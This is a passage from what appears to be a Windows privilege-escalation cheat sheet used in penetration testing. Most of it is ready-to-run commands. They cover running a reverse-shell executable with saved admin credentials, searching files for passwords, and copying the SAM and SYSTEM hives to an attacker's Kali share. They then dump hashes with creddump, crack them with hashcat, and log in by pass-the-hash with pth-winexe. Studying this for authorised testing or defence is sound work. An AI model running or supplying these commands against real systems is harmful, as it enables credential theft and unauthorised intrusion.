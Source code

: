 #### Use saved credentials
```
runas /savecred /user:admin C:\temp\reverse.exe
```

### Configuration Files
```
Some administrators will leave configurations files on the system with passwords in them. The Unattend.xml file is an example of this. It allows for the largely automated setup of Windows systems.
```

#### Manually search
```
dir /s *pass* == *.config
findstr /si password *.xml *.ini *.txt
```

### SAM
Windows stores password hashes in the Security Account Manager (SAM). The hashes are encrypted with a key which can be found in a file named SYSTEM. If you have the ability to read the SAM and SYSTEM files, you can extract the hashes. Located in: ```C:\Windows\System32\config directory.``` or ```C:\Windows\Repair``` or  ```C:\Windows\System32\config\RegBack directories```

#### Copy them to kali
```
copy C:\Windows\Repair\SAM \\<IP>\<SHARE>\
copy C:\Windows\Repair\SYSTEM \\<IP>\<SHARE>\
```

#### Run creddump pdump.py
- https://github.com/Neohapsis/creddump7.git
- /usr/share/creddump7/pwdump.py

```
python2 creddump7/pwdump.py SYSTEM SAM
```

#### Crack with hashcat
```
hashcat -a 0 -m 1000 --force <HASHES> <WORDLIST>
```

#### Pass the hash login
```
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //<IP> cmd.exe
pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //<IP> cmd.exe
```

## Scheduled tasks
Windows can be configured to run tasks at specific times, periodically (e.g. every 5 mins) or when triggered by some event (e.g. a user logon). Tasks usually run with the privileges of the user who created them, however administrators can configure tasks to run as other users, including SYSTEM.
